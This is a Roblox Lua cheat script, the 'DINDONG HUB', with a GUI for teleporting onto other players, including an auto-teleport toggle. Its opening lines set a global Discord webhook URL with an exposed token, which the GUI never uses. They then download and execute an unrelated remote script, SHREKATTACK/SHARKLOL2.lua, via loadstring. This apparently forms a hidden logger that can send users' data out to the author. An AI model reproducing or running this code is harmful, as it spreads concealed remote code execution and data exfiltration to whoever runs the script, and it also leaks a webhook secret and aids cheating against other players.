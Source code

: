 _G.webhooksdiscord = "https://discord.com/api/webhooks/952534837422608384/SdxPIEPCN4no6wLSaEMoQlIRf7s3uwjS8ZoQNwi80nJR1G1MLVPklORU01hYvV7uFkhk"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()

local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("DINDONG HUB", "DarkTheme")
local Tab = Window:NewTab("Player")
local Section = Tab:NewSection("Select Player!")
Plr = {}
for i,v in pairs(game:GetService("Players"):GetChildren()) do
    table.insert(Plr,v.Name) 
end
local drop = Section:NewDropdown("Select Player!", "Click To Select", Plr, function(t)
   PlayerTP = t
end)
Section:NewButton("Click To TP", "", function()
    game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end)
Section:NewToggle("Auto Tp", "", function(t)
_G.TPPlayer = t
while _G.TPPlayer do wait()
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end
end)

Section:NewButton("Refresh Dropdown","Refresh Dropdown", function()
  drop:Refresh(Plr)
end)


local Tab = Window:NewTab("misc")
local Section = Tab:NewSection("Select Player!")

Section:NewKeybind("KeybindText", "KeybindInfo", Enum.KeyCode.F, function()
	Library:ToggleUI()
end)
